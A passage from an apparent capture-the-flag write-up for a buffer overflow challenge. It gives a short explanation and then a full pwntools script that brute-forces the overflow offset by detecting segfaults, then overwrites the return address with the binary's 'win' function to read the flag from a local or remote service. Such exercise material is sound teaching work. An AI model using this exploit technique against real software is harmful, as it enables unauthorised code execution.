 This actually bruteforces `max_num` times, which is given by the user, opening and closing processes each time and if the return code is -11, which indicates Segmentation fault, then it returns this offset.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")

fname = "./challenge1" 

LOCAL = False

e     = ELF(fname)

prompt = ">"

def find_boffset(max_num):
  # Avoid spamming
  context.log_level = "error"
  print(colored("\n[*] Searching for Overflow Offset..", "blue"))
  for i in range(1, max_num): 
    # Open connection
    r = process(fname)
    r.sendlineafter(prompt, "A"*i)
    
    # Recv everything
    r.recvall(timeout=0.2)
    
    # If the exit code == -1 (SegFault)
    if r.poll() == -11:
      print(colored("\n[+] Buffer Overflow Offset found at: {}".format(i-1), "green"))
      r.close()
      return i-1
    r.close()
  print(colored("\n[-] Could not find Overflow Offset!\n", "red"))
  r.close()

def pwn():
  # Find the overflow offset
  offset = find_boffset(200)
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)
  
  # Call the function to send  
  r.sendlineafter(">", b"A"*offset + p64(e.sym.win))

  # Read flag - unstable connection
  try:
    flag = r.recvline_contains("FLAG").decode()
    print(colored("\n[+] Flag: {}\n".format(flag), "green"))
  except:
    print(colored("\n[-] Failed to connect!\n", "red"))

if __name__ == "__main__":
  pwn()
```